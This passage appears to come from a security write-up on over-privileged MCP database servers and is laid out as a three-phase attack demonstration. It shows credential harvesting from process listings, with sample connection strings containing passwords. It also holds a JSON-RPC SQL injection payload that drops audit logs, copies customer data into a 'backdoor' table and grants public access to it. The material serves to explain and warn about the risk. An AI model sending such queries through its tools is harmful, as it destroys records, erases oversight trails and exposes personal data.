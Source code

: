 
### The Privilege Explosion

Each MCP server connects with **maximum privilege levels**:

| MCP Server | Database Role | Privileges |
|------------|---------------|------------|
| analytics-db | `db_admin` | Full warehouse access, ETL control |
| customer-db | `root` | Complete customer database, PII access |
| financial-reporting | `finance_admin` | All financial data, SOX-sensitive tables |

**Why maximum privileges?**: Developers want MCP to "just work" without permission hassles.

## The Attack Demonstration

### Phase 1: Credential Extraction (30 seconds)
```bash
# Standard same-user compromise
ps aux | grep postgres-mcp-server.py

# Output reveals:
alice  1234  python postgres-mcp-server.py postgresql://db_admin:$uper$ecret@prod-analytics.company.com/warehouse
alice  1235  node postgresql-mcp.js --connection=postgresql://root:R00tP@ssw0rd@customer-db.internal:5432/customers  
alice  1236  python finance-mcp.py postgresql://finance_admin:F1n@nc3!@financial-db.company.com/reports
```

### Phase 2: JSON-RPC SQL Injection (1 minute)
```json
// Innocent-looking MCP request
{
  "jsonrpc": "2.0",
  "method": "database/query",
  "params": {
    "sql": "SELECT name FROM users WHERE id = 1; DROP TABLE audit_logs; CREATE TABLE backdoor AS SELECT * FROM sensitive_customers; GRANT ALL ON backdoor TO PUBLIC; --"
  },
  "id": 1
}
```

### Phase 3: Privilege Escalation Through Inheritance (immediate)
The injected SQL executes with **full admin privileges** because:
- MCP connects as `db_admin`
- No query restrictions or sandboxing
- Full DDL/DML permissions inherited
- No additional authentication required
